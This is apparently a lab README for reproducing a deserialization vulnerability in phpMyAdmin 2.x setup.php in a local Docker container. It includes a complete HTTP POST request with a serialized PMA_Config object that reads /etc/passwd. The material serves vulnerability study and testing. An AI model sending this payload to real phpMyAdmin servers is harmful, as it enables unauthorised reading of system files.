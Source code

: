 # Phpmyadmin Scripts/setup.php Deserialization Vulnerability (WooYun-2016-199433)

[中文版本(Chinese version)](README.zh-cn.md)

Affected version: 2.x

## Setup

Run the following command to start phpmyadmin:

```
docker compose up -d
```

Visit `http://your-ip:8080` and you will see the phpmyadmin home page. Because there is no connection to the database, we will get an error. But this vulnerability is not related to the database, so just ignore.

## Exploit

Send the following package to read `/etc/passwd`:

```
POST /scripts/setup.php HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 80

action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}
```

![](1.png)
